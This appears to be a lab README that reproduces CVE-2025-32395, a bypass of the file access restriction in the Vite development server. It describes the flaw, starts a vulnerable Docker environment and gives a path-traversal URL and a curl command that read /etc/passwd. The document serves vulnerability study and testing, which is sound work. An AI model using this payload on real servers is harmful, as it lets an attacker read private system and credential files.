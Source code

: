 # Vite Development Server Arbitrary File Read Bypass (CVE-2025-32395)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a development server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 6.2.6, 6.1.5, 6.0.15, 5.4.18, and 4.5.13, the `server.fs.deny` feature, which is designed to restrict access to files outside of Vite's serving allow list, can be bypassed. By using malformed URLs like `/@fs/{{project_path}}/#/../../../../../../etc/passwd`, an attacker can read arbitrary files on the filesystem.

The vulnerability occurs because the illegal character `#` in the URL path is handled differently at different stages of request processing, leading to a bypass of security checks.

This vulnerability is a bypass for the patch of [CVE-2025-31486](../CVE-2025-31486/README.md).

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-32395>

## Environment Setup

Execute the following command to start a Vite 6.2.4 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

In this lab environment, the project_path is `/usr/src/`. You can verify this by accessing `/@fs/etc/passwd` and checking the response:

![](1.png)

Next, by accessing `/@fs/{{project_path}}/#/../../../../../etc/passwd`, you can bypass this restriction and retrieve the contents of the file:

```
curl --request-target /@fs/Users/doggy/Desktop/vite-project/#/../../../../../etc/passwd http://localhost:5173
```

This request will return the contents of the `/etc/passwd` file:

![](2.png)

> Note:When using `curl` with a direct URL, it will remove illegal `#` characters from the URL
>
> Additional note: Burp Suite also has issues handling illegal `#` characters in URLs
